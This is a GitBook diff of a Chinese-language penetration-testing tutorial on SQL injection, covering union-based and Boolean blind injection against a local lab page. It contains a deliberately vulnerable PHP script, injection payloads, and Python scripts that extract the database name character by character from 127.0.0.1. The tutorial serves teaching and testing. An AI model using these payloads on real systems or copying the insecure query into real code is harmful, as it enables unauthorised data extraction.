

GitBook: [master] 2 pages and 15 assets modified

Changed region(s): [[0.0, 0.0, 1.0, 1.0]]

diff --git a/trick-tree/pentest/information-leakage/regular-vulnerability/sql-inject.md b/trick-tree/pentest/information-leakage/regular-vulnerability/sql-inject.md
@@ -25,7 +25,7 @@ SQL注入产生需要满足两个条件：
 
 [`SELECT`](http://localhost/phpMyAdmin4.8.5/url.php?url=https://dev.mysql.com/doc/refman/5.5/en/select.html) ``* FROM `SCHEMATA```
 
-![SCHEMATA](../../../../.gitbook/assets/tu-pian%20%286%29.png)
+![SCHEMATA](../../../../.gitbook/assets/tu-pian%20%289%29.png)
 
 记录数据库库名的字段为`SCHEMA_NAME`
 
@@ -35,7 +35,7 @@ SQL注入产生需要满足两个条件：
 
 [`SELECT`](http://localhost/phpMyAdmin4.8.5/url.php?url=https://dev.mysql.com/doc/refman/5.5/en/select.html) ``* FROM `TABLES```
 
-![TABLES](../../../../.gitbook/assets/tu-pian%20%2811%29.png)
+![TABLES](../../../../.gitbook/assets/tu-pian%20%2814%29.png)
 
 其中，`TABLE_SCHEMA` 记录了数据库的库名，`TABLE_NAME` 记录了表名。
 
@@ -57,7 +57,7 @@ SQL注入产生需要满足两个条件：
 
 `limit` 使用格式为`limit m,n` 其中，`m` 是记录开始的位置，从`0` 开始，表示第一条记录，`n` 是取`n` 条记录，例如，`limit 0,1` 表示从第一条记录开始，取一条记录。
 
-![LIMIT](../../../../.gitbook/assets/tu-pian%20%289%29.png)
+![LIMIT](../../../../.gitbook/assets/tu-pian%20%2812%29.png)
 
 #### 常用函数
 
@@ -107,17 +107,17 @@ while($row = mysqli_fetch_array($result))
 
 正常访问：
 
-![&#x6B63;&#x5E38;&#x8BBF;&#x95EE;](../../../../.gitbook/assets/tu-pian%20%2810%29.png)
+![&#x6B63;&#x5E38;&#x8BBF;&#x95EE;](../../../../.gitbook/assets/tu-pian%20%2813%29.png)
 
 在`id=1`后面添加`'` 
 
-![1&#x2019;&#x8FD4;&#x56DE;&#x4E3A;&#x7A7A;](../../../../.gitbook/assets/tu-pian%20%288%29.png)
+![1&#x2019;&#x8FD4;&#x56DE;&#x4E3A;&#x7A7A;](../../../../.gitbook/assets/tu-pian%20%2811%29.png)
 
 这里说明有可能存在SQL注入，为了进一步判别是否存在漏洞，我们要进行验证是否可以进行逻辑运算，比如我们访问`id=1 and 1=1`  ，由于`1=1` 为真，因此应返回与`id=1` 相同的页面，同样的，`id=1 and 1=2` 应返回不同的页面。
 
-![and 1=1](../../../../.gitbook/assets/tu-pian%20%2812%29.png)
+![and 1=1](../../../../.gitbook/assets/tu-pian%20%2815%29.png)
 
-![and 1=2](../../../../.gitbook/assets/tu-pian%20%285%29.png)
+![and 1=2](../../../../.gitbook/assets/tu-pian%20%287%29.png)
 
 因此可以判断网站存在SQL注入漏洞，我们可以通过以下过程，通过漏洞模拟攻击者获得数据库相关信息。
 
@@ -125,7 +125,7 @@ while($row = mysqli_fetch_array($result))
 2. 判断可输出字段`union  select 1,2,...,num`
 3. 替换可显示字段，输出我们想执行操作
 
-![order by 3 &#x663E;&#x793A;&#x6B63;&#x5E38;](../../../../.gitbook/assets/tu-pian%20%2813%29.png)
+![order by 3 &#x663E;&#x793A;&#x6B63;&#x5E38;](../../../../.gitbook/assets/tu-pian%20%2816%29.png)
 
 ![order by 4 &#x663E;&#x793A;&#x4E0D;&#x6B63;&#x5E38;](../../../../.gitbook/assets/tu-pian%20%281%29.png)
 
@@ -135,13 +135,89 @@ while($row = mysqli_fetch_array($result))
 
 说明位置`2` 和`3` 是可以输出的，替换我们想执行的操作，以`user()` 和`database()` 举例
 
-![union select 1,user\(\),database\(\)](../../../../.gitbook/assets/tu-pian%20%284%29.png)
+![union select 1,user\(\),database\(\)](../../../../.gitbook/assets/tu-pian%20%285%29.png)
 
 可以得出当前用户是`root`用户，数据表为`users` 表，我们也可以通过控制`id` 参数，给其设定一个不存在的值，让其返回`union select` 的值
 
-![id=-1 union select 1,user\(\),database\(\)](../../../../.gitbook/assets/tu-pian%20%287%29.png)
+![id=-1 union select 1,user\(\),database\(\)](../../../../.gitbook/assets/tu-pian%20%2810%29.png)
 
+#### Boolean注入
 
+如下代码：
+
+```text
+<?php
+$con=mysqli_connect("localhost","root","root","users");
+// 检测连接
+if (mysqli_connect_errno())
+{
+	echo "连接失败: " . mysqli_connect_error();
+}
+
+$id = $_GET['id'];
+
+if (preg_match("/union|sleep|benchmark/i", $id)) {
+	exit("no");
+}
+
+$result = mysqli_query($con,"select * from user where `id`='".$id."'");
+
+$row = mysqli_fetch_array($result);
+
+if ($row) {
+	exit("yes");
+}else{
+	exit("no");
+}
+?>
+```
+
+我们可以看到代码中还是通过`get` 方式获取`id` 的值，并且拼接到SQL语句中，但是前面做了一个正则匹配，如果检测到`union` 、`sleep` 、`benchmark` 就退出并返回`no` ，而且使用了`i` 修正符，因此会不区分大小写去文本中匹配 php，这意味着我们无法使用联合注入以及延时注入，并且是无法用大小写绕过的，后面的判断条件是如果SQL执行成功就会返回`yes` ，否则返回`no` ，这里可以判断为典型的boolean注入，我们可以使用如下过程模拟攻击者对系统发起攻击。
+
+1. 通过 `' and length(database())>=num --+` 判断数据库名称长度，由于我们可以看到`id` 参数被`'` 包围，因此我们先闭合前面的单引号，使得后面我们的`payload` 得以正常执行。
+2. 通过 `' and substr(database(),1,1)='t' --+` 逐字符判断的方式（不区分大小写）获取数据库名或通过 `' and ord(substr(database(),1,1)) = 115 --+`使用`ASCII` 转换函数`ord` 逐字符判断，这里里`substr` 是截取`database()` 的值，从第`1` 个字符开始，每次只返回`1` 个。
+
+![&apos; and length\(database\(\)\)&amp;gt;=6 --+](../../../../.gitbook/assets/tu-pian%20%288%29.png)
+
+当我们测试数据库长度大于等于`6` 时，报了`no` ，说明数据库长度为`5` 
+
+![&apos; and substr\(database\(\),1,1\)=&apos;u&apos; --+](../../../../.gitbook/assets/tu-pian%20%2817%29.png)
+
+当我们测试数据库第一个字符为`u` 时，报了`yes` ，说明数据库库名第一个字母为`u` ，我们可以写一个python脚本，来代替我们实现这一繁琐的过程。
+
+```text
+import requests
+
+url = 'http://127.0.0.1/boolean.php?id=1'
+for num in range(0,10):
+	length_check_poc = "' and length(database())>=" + str(num) + " --+"
+	r = requests.get(url + length_check_poc)
+	if r.text == 'no':
+		print('[+]数据库库名长度为： ' + str(num-1))
+		exit()
+```
+
+我们可以看到数据库库名长度为`5` 
+
+![&#x5224;&#x65AD;&#x6570;&#x636E;&#x5E93;&#x5E93;&#x540D;&#x957F;&#x5EA6;](../../../../.gitbook/assets/tu-pian%20%286%29.png)
+
+```text
+import requests
+
+url = 'http://127.0.0.1/boolean.php?id=1'
+poc_str = 'abcdefghijklmnopqrstuvwxyz0123456789'
+for num in range(1,6):
+	for char in poc_str:
+		str_check_poc = "' and substr(database(),"+ str(num) +",1)='" + char + "' --+"
+		r = requests.get(url + str_check_poc)
+		if r.text == 'yes':
+			print('[+]数据库库名第'+ str(num) +'个字符为' + char)
+			break
+```
+
+我们可以看到数据库库名每个字符是什么，拼接到一起即数据库库名为`users` 
+
+![&#x5224;&#x65AD;&#x6570;&#x636E;&#x5E93;&#x540D;&#x79F0;](../../../../.gitbook/assets/tu-pian%20%284%29.png)
 
 ## 参考资料
 
